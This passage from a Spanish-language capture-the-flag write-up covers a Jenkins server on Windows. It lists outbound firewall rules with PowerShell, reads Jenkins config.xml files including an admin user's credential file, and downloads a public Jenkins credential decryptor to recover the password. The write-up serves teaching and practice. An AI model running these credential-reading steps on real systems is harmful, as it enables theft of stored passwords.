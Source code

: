 O podemos usar el <a href="https://itluke.online/2018/11/27/how-to-display-firewall-rule-ports-with-powershell/">oneliner</a> para listar las reglas permitidas en un formato mas legible, que es:

```powershell
cmd /c powershell -c "Get-NetFirewallRule -Direction Outbound -Action Block -Enabled True | Format-Table -Property Name,DisplayName, DisplayGroup, @{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}}, @{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}}, @{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}}, @{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}}, Enabled, Profile, Direction, Action"
```

![oneliner](/assets/images/Object/ps_cheat.png)

Ahora como no hemos podido ver reglas interesantes, sigamos enumerando informacion, intentaremos listar informacion de configuracion de jenkins con el comando:

```s
cmd /c powershell -c "ls ../../"
cmd /c powershell -c "cat ../../config.xml"
cmd /c powershell -c "cat ../../users/admin_17207690984073220035/config.xml"
```

Ahora en el ultimo archivo obtuvimos la potencial contrasena que al parecer no se encuentra en base64, asi que nos copiaremos el archivo config ya que hay vias potenciales de obtener la contrasena, que para usarla usaremos los siguientes comandos:

```s
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor
```
